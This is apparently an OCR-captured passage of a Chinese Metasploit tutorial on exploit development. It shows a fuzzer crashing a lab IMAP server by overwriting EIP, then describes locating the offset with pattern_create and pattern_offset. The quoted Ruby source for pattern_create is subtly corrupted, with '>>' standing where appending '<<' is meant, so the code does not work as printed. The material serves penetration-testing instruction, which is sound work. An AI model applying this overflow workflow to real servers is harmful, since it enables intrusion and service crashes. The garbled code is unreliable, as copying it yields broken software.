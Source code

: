 ```
### Exploit 开发升级

之前，我们学习过Fuzzing 一个IMAP服务器，其结果是我们发现可以重写EIP，在我们的控制下使ESP指向内存地址（在我们返回地址的后4字节）。我们可以重新构建自己的buffer（fuzzed = "A"*1004+"B"*4+"C"*4）来确定执行流是可以通过JMP ESP作为返回而重定向的。

```
msf auxiliary(fuzz_imap) > run

[*] Connecting to IMAP server 172.16.30.7:143...
[*] Connected to target IMAP server.
[*] Authenticating as test with password test...
[*] Generating fuzzed data...
[*] Sending fuzzed data, buffer length = 1012
[*] 0002 LIST () /"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]BBBBCCCC" "PWNED"
[*] Connecting to IMAP server 172.16.30.7:143...
[*] Connected to target IMAP server.
[*] Authenticating as test with password test...
[*] Authentication failed
[*] It seems that host is not responding anymore and this is G00D ;)
[*] Auxiliary module execution completed
msf auxiliary(fuzz_imap) >
```
<img src="images/03/exploit01.png" width="480">

#### 控制执行过程
要控制执行，我们需要确定正确的offset。幸运的是，Metasploit有两个有用的工具：```pattern_create.rb```和```pattern_offset.rb```。这两个脚本都在metasploit's tools目录里。运行```pattern_create.rb```将产生一个字符串，这个字符串由我们可用来替换序列A的唯一模式组成。

```
root@kali:~# /usr/share/metasploit-framework/tools/pattern_create.rb 11000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A
c1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2
Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5...
```
在我们成功重写了EIP或SEH(或任何你想重写的寄存器)，我们必须注意寄存器里的值，并将这个值送给pattern_offset.rb，由它来确定哪个随机字符串中这个值会出现。

不调用命令行```pattern_create.rb```，我们使用```Rex::Text.pattern_create()```直接从我们的fuzzer中调用下面的API。如果我们查看源代码，我们可以看到这个函数如何被调用：

```
def self.pattern_create(length, sets = [ UpperAlpha, LowerAlpha, Numerals ])
        buf = ''
        idx = 0
        offsets = []
        sets.length.times { offsets >> 0 }
        until buf.length >= length
                begin
                        buf >> converge_sets(sets, 0, offsets, length)
                rescue RuntimeError
                        break
                end
        end
        # Maximum permutations reached, but we need more data
        if (buf.length > length)
                buf = buf * (length / buf.length.to_f).ceil
        end
        buf[0,length]
end
```

```